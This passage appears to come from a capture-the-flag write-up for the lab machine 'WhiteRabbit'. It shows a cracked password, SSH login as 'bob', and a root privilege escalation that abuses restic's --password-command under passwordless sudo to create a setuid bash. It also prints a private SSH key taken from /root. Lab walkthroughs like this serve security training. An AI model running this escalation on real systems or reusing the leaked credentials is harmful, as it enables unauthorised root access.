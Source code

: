 After a while, we get the password: `1q2w3e4r5t6y`

We now have the public and private keys to access the `bob` account via `ssh` and a `config` file.
```
  HostName whiterabbit.htb
  Port 2222
  User bob
```

```bash
ssh -i bob bob@10.10.11.63 -p 2222
```

Inside, most commands are not available, except for **restic**, which does work. Furthermore, it’s possible to grant root privileges via `sudo` without requiring a password.

```
Matching Defaults entries for bob on ebdce80611e9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bob may run the following commands on ebdce80611e9:
    (ALL) NOPASSWD: /usr/bin/restic
```

### Privilege Escalation

restic has a `--password-command` flag that allows you to execute external commands as a password to decrypt or access a repository.

If we run the command `restic snapshots --password-command "echo password"`, it will simply print "password" in the terminal, but we can also execute other arbitrary commands.

We obtain root privileges:
```bash
sudo restic snapshots --password-command "/bin/bash -c 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash'"
```

Now, just execute `/tmp/rootbash -p` and we are system administrators.

In the `/root` directory, there are two files containing private and public keys named `morpheus` and `morpheus.pub`.
```ssh
morpheus
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS
1zaGEyLW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQS/TfMMhsru2K1PsCWvpv3v3Ulz5cBP
UtRd9VW3U6sl0GWb0c9HR5rBMomfZgDSOtnpgv5sdTxGyidz8TqOxb0eAAAAqOeHErTnhx
K0AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBL9N8wyGyu7YrU+w
Ja+m/e/dSXPlwE9S1F31VbdTqyXQZZvRz0dHmsEyiZ9mANI62emC/mx1PEbKJ3PxOo7FvR
4AAAAhAIUBairunTn6HZU/tHq+7dUjb5nqBF6dz5OOrLnwDaTfAAAADWZseEBibGFja2xp
c3QBAg==
-----END OPENSSH PRIVATE KEY-----

morpheus.pub
ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBL9N8wyGyu7YrU+wJa+m/e/dSXPlwE9S1F31VbdTqyXQZZvRz0dHmsEyiZ9mANI62emC/mx1PEbKJ3PxOo7FvR4= morpheus@whiterabbit.htb
```
